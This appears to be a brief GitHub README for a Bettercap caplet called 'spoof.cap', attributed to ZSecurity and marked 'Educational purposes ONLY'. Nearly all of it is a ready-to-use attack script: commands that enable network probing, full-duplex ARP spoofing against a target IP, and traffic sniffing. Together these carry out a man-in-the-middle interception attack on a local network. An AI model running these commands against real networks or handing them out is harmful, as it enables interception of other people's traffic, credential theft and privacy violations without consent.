 # Script
Spoof.cap script for Bettercap! ZSecurity, Educational purposes ONLY

`net.probe on`
`set arp.spoof.fullduplex true`
`set arp.spoof.targets 10.0.2.7 (target IP here)`
`arp.spoof on`
`net.sniff on`
